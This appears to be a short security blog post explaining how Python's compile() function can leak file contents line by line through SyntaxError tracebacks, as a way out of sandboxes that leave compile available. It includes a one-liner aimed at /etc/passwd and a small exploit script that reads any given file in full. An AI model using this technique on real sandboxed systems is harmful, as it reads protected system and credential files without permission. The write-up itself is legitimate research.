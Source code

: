 ```yaml
---
layout: post
title: Python Compile Leak Bug 
published: true
categories: [Research]
excerpt: I was trying to break out of a python sandbox back in October, when I discovered a by-design bug.
---
```


I was trying to break out of a python sandbox back in October, when I discovered a by-design bug.

---

# Leaking files with compile() in Python

### Background

I was trying to break out of a python sandbox back in October, when I asked [this question](https://security.stackexchange.com/q/219320/169503) on Stackexchange (but no one answered...)

By using the `compile` function and throwing an error by `return`ing it early, we can leak the first line of any file that we have access permissions to. 

Now, you may ask:     
>But Isopach, what's the use of leaking a file that you already have permissions to read? Why not just **cat** it? 

And to be honest, on hindsight this isn't even a noteworthy bug to write about. 

BUT! You can use this for escaping improperly implemented sandboxes, i.e. sandboxes that did not remove the `compile` function. So even if you cannot `cat` the file directly, you will be able to leak them.

So, onto the bug!

### Bug

By running `compile('yield', '/etc/passwd', 'exec')`, we are able to leak the first line of any file.

While it is useful in many cases, often we want to see the whole file, right?

To do this, since python interprets files line-by-line, we can delay the termination error simply by adding a new line `\n` to leak a line at a time.

For example, let's make `/tmp/passwd`:
```
$ cat /tmp/passwwd
line 1
line 2 
line 3
line 4
```

We will be able to read the first line with 0 `\n` like as above, but when we run `compile('\nyield', '/tmp/passwd', 'exec')`, it returns `line 2`!

### Exploit 

We'll be able to get every line by catching the `Traceback` and storing it in a variable, then printing it out for every line like this:

```
import traceback
import sys


for i in range(0,100):
    line_number = '\n' * i
    payload = line_number + 'yield'
    try:
        compile(payload, sys.argv[1], 'exec')
    except SyntaxError, err:
        try:
            exc_info = sys.exc_info()
            
        finally:
            traceback.print_exception(*exc_info)
            del exc_info
```

Change the upper limit in `range` depending on file length.

Thanks for reading!
